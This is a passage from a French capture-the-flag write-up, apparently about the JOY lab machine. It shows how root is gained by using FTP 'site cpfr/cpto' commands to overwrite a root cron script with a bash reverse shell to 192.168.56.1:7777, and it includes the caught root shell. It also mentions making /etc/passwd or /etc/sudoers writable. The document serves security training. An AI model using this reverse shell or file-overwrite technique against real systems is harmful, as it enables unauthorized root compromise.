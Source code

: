 ```bash
echo "Done!"
```

Juste en exécutant on devine alors qu'on peut changer les permissions sur n'importe quel fichier. De quoi rendre `/etc/passwd` ou `/etc/sudoers` world-writable ou encore placer le bit setuid sur un exécutable.

Une autre solution consiste à ne pas quitter notre connexion FTP. Par exemple je peux utiliser les commandes `site` pour fuiter la `crontab` de root (`/var/spool/cron/crontabs/root`) :

```bash
*/3 * * * * bash /root/permissions.sh
*/5 * * * * bash /root/document-generator.sh
```

Je crée un fichier `mytask.sh` avec le contenu suivant :

```bash
bash -i >& /dev/tcp/192.168.56.1/7777 0>&1
```

Je l'uploade via FTP et j'écrase `/root/permissions.sh` :


```
site cpfr /home/ftp/mytask.sh
350 File or directory exists, ready for destination name
site cpto /root/permissions.sh
250 Copy successful
```

Après quelques minutes ça vient :

```console
$ ncat -l -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.121.
Ncat: Connection from 192.168.56.121:37186.
bash: cannot set terminal process group (1732): Inappropriate ioctl for device
bash: no job control in this shell
root@JOY:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

De la même façon, on peut directement écraser `/etc/crontab` ou `/etc/passwd` (mais avec la restriction sur les clés ce n'est pas intéressant).

Toutes les solutions concernant les clés SSH sont plus contraignantes, car _DropBear_ a son propre format de clés.
Il faudrait utiliser un utilitaire spécifique pour convertir une clé du format _OpenSSH_ vers _DropBear_ ou se servir de _DropBear_ pour générer une clé valide.
